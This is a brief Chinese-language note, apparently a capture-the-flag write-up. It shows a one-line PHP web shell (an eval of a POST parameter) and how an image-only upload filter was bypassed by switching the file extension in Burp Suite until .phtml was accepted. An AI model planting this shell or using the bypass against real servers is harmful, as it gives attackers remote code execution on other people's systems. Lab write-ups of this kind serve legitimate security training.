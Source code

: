 直接最原始的一句话木马上传
```php
<?php @eval($_POST['flag']) ?>
```
提示只能上传jpg、png、gif
改成jpg然后用BP改
后缀改成php提示bad file
改成php2蚁剑连不上
最后改成phtml可以了
